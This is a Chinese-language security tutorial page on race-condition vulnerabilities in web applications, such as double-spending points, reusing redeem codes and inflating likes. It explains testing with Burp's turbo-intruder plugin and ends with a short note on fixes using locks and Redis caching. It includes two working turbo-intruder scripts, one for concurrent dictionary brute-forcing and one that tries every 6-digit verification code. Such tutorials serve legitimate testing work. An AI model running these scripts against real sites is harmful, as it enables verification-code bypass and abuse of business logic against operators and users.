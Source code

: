 并发漏洞：在和数据库交互同一资源时，没有使用数据库事务，导致多个请求并发读取的某个数据的同一状态。(多线程条件竞争)
场景：关注(刷粉丝，删粉丝)、点赞、收藏、兑换码、积分兑换。
有20积分，同时兑换20积分和15积分的商品。
危害：无限制表插值，浪费资源，一码多用等。

^
## **turbo-intruder测试**
bp插件测并发漏洞，turbo-intruder插件。

<https://blog.csdn.net/m0_63421985/article/details/133899675>
<https://www.wangan.com/p/7fy7f444b121d0aa>
安装后右键请求包，扩展，就可以使用。
进入请求包页面，
在请求包中任意加变量%s：
如：在Host下方输入：x-req:%s
选择代码examples/race.py
代码中concurrentConnections值改为10。range(10)改为10。改成并发10
执行攻击代码。

^
查看并发结果，比较响应长度，是否有并发漏洞。

yakit:
![yakit并发](http://cdn.33129999.xyz/mk_img/yakit并发.jpg)
^
案例场景：
<https://blog.csdn.net/Gherbirthday0916/article/details/130639360>


^
## **并发爆破**
<https://sanshiok.com/archive/16.html>
对请求包参数有爆破变化的并发。

base.py 字典并发
```
def queueRequests(target, wordlists):
    # 初始化请求引擎
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,  # 并发连接数
                           requestsPerConnection=100,  # 每个连接的请求数
                           pipeline=False  # 管道模式
                           )

    # 逐行读取字典文件中的单词并构造请求
    for word in open('/usr/share/dict/words'):
        engine.queue(target.req, word.rstrip())  # 将请求添加到队列中

def handleResponse(req, interesting):
    # 处理从服务器接收到的响应
    # 如果响应状态码不是 404，则将请求添加到表中
    if req.status != 404:
        table.add(req)
```


%s爆破6位数验证码
```
from itertools import product


def brute_veify_code(target, engine, length):
    pattern = '1234567890'  # 用于生成字典的迭代对像

    for i in list(product(pattern, repeat=length)):  # product()接收多个迭代对像，然后生成一个笛卡尔积，repeat参数代表重复迭代对象次数。

        code = ''.join(i)

        engine.queue(target.req, code)


def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,  # 指定目标的地址

                           concurrentConnections=30,  # 与服务器建立30条连接

                           requestsPerConnection=100,  # 每条连接同时发送100个请求

                           pipeline=True  # 开启管道(HTTP Pipelining)模式

                           )

    brute_veify_code(target, engine, 6)  # 根据验证码位数修改


def handleResponse(req, interesting):
    if 'error' not in req.response:  # 对response进行操作，不含有“error”的添加入表中
        table.add(req)
```



^
## **并发修复**
用锁
业务场景：在高并发环境下用户频繁的给某一篇文章点赞，而点赞之后需要将点赞数更新至数据库中，这样就可能严重影响数据库的性能，甚至会导致数据的宕机。 设计思路：将文章的点赞信息全部缓存在redis的set类型的数据结构中，读的时候直接从redis中返回点赞数据，然后使用Quartz每隔两个小时将Redis的数据同步至MySQL中，保证Redis和MySQL的数据一致性。


